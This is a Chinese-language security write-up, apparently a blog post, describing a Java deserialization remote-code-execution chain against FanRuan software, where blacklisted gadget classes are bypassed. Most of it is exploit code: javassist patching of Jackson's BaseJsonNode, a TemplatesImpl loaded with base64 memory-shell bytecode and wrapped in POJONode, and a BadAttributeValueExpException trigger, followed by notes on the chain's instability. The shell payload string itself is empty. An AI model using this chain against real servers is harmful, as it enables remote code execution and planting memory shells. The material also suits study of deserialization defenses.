   
从这里看的黑名单发现链有spring(JONS1)、c3p0、cc4、hibernate  
#### JACKSON链  
  
在写EXP的过程中突然发现 POJONode 和 TemplatesImpl 根本就不在黑名单里，那么我 不就可以直接进行结合来rce嘛  
##### 思路  
```
//第一段是在 com.fasterxml.jackson.databind.node.BaseJsonNode 被类加载器加载前，使用 javassist 工具删除它的 writeReplace 方法，防止触发这个方法的时候会检测 报错

        CtClass ctClass = ClassPool.getDefault().get("com.fr.third.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();

//不加此段代码 会爆如下错误
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Uu7diaf2LD4LgiaA4LAtykdNdEBZxgvjtT3rbogn3W5wnbgE7M6QL9KXJKEn8exYx8fo9K1bkFOqjVNib3ZVjKyicQ/640?wx_fmt=png&from=appmsg "")  
```
//第二段是构造一个 TemplatesImpl 类型的对象，然后用其构造一个 POJONode 类型的对象。
        String memshell = "";
        ClassPool pool = new ClassPool();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        byte[] classBytes = new BASE64Decoder().decodeBuffer(memshell);

        Class tplClass = TemplatesImpl.class;
        Class transFactory = TransformerFactoryImpl.class;
        Object templates = tplClass.newInstance();

        SetFieldValue.setFieldValue(templates, "_bytecodes", new byte[][]{classBytes});
        SetFieldValue.setFieldValue(templates, "_name", "bbb");
        SetFieldValue.setFieldValue(templates, "_tfactory", transFactory.newInstance());

        POJONode node = new POJONode(templates);
```  
```
//第三段是将这个 POJONode 类型的对象设置为 BadAttributeValueExpException 类型的对象的 val 字段的值，之后反序列化时触发 POJONode 类型的对象的 toString 方法
。
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);

        SetFieldValue.setFieldValue(val,"val",node);
```  
  
**缺点-JACKSON 链的不稳定性**  
```
JACKSON 链的不稳定性
有时在使用 JACKSON 链时，我们会遇到报错
这是因为 JACKSON 链触发过程中，在 com.fasterxml.jackson.databind.ser.std.BeanSerializerBase#serializeFields 中获取了之前找到的 props，且循环触发其 getter
而不是直接触发 TemplatesImpl#getOutputProperties 唯一的getter

所以yso写的是JSON1 链，因为调用直接是 getOutputProperties  getter

不过在环境中 org.springframework.aop.framework.JdkDynamicAopProxy 等都在黑名单所以无法用 JSON1 链
```  
#### 内存码EXP  
  